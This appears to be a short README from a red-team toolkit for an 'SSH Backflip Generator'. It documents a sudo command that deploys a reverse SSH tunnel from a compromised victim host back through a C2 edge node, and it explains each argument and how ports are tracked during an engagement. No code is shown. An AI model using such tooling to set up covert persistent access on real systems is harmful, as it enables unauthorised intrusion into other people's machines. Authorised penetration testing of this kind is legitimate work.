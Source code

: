 # SSH Backflip Generator

## Useage

`sudo python3 backflipdeploy.py <username> <victim_host> <c2_fqdn/ip> <port> <remote_port>`

## Arguments

username: Arbitrary name of the user you are compromising. Stored locally in `/opt/backflips` on a poryx

victim_host: Arbitrary name of the host you are compromising. Stored locally in `/opt/backflips` on a proxy

c2_fqdn/ip: The IP address or domain of the edge sketch node the backflip will connect through

port: Port that forwards back to the victim (tcp/22). Use a range of 4000 and upwards. Track this on the `Table for tracking backflips` in an engagements infra.

remote_port: The secondary edge port that the backflip SSH service is running on, which for RTI is 2222.
